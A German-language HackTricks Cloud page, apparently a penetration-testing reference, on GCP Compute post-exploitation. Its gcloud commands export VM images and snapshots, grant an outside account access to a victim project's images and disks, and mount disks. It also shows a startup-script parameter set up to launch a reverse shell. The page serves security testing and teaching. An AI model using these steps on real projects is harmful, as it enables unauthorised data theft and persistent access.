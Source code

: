 # GCP - Compute Post Exploitation

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) überprüfen Sie:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Bilder lokal exportieren & inspizieren

Dies würde einem Angreifer ermöglichen, **auf die Daten zuzugreifen, die in bereits vorhandenen Bildern enthalten sind** oder **neue Bilder von laufenden VMs zu erstellen** und auf deren Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Bild in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl zu mounten:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Um diese Aktion auszuführen, benötigt der Angreifer möglicherweise Berechtigungen für den Speicher-Bucket und auf jeden Fall **Berechtigungen für cloudbuild**, da es der **Dienst** ist, der aufgefordert wird, den Export durchzuführen.\
Darüber hinaus müssen für das Funktionieren die Berechtigungen des codebuild SA und des compute SA privilegiert sein.\
Der cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportieren & Überprüfen von Snapshots & Festplatten lokal

Es ist nicht möglich, Snapshots und Festplatten direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Festplatte, eine Festplatte in ein Image** zu **transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Überprüfen eines Images durch Erstellen einer VM

Mit dem Ziel, auf die **Daten, die in einem Image gespeichert sind** oder innerhalb einer **laufenden VM**, von wo ein Angreifer **ein Image erstellt hat,** zuzugreifen, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und dann eine neue VM daraus erstellen:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff über das Image gewähren konnten, könnten Sie eine VM mit diesem Image im Projekt des Opfers starten und **die Metadaten dazu bringen, eine Reverse-Shell auszuführen**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Mit dem Ziel, auf die **Daten, die auf einem Disk oder einem Snapshot gespeichert sind, zuzugreifen, könnten Sie den Snapshot in einen Disk, einen Disk in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten **einem externen Konto Zugriff** auf den Disk gewähren (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff auf den Snapshot oder erstellen Sie einen Disk daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Hängen Sie die Festplatte** an eine Instanz an:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mounten Sie das Laufwerk innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifizieren Sie das Laufwerk**: Sobald Sie in der VM sind, identifizieren Sie das neue Laufwerk, indem Sie die Laufwerksgeräte auflisten. Typischerweise finden Sie es als `/dev/sdb`, `/dev/sdc` usw.
3. **Formatieren und Mounten Sie das Laufwerk** (wenn es sich um ein neues oder rohes Laufwerk handelt):
*   Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mounten Sie das Laufwerk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinen Zugriff auf ein externes Projekt** für den Snapshot oder das Laufwerk gewähren können, müssen Sie möglicherweise diese Aktionen **innerhalb einer Instanz im selben Projekt wie der Snapshot/das Laufwerk** durchführen.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
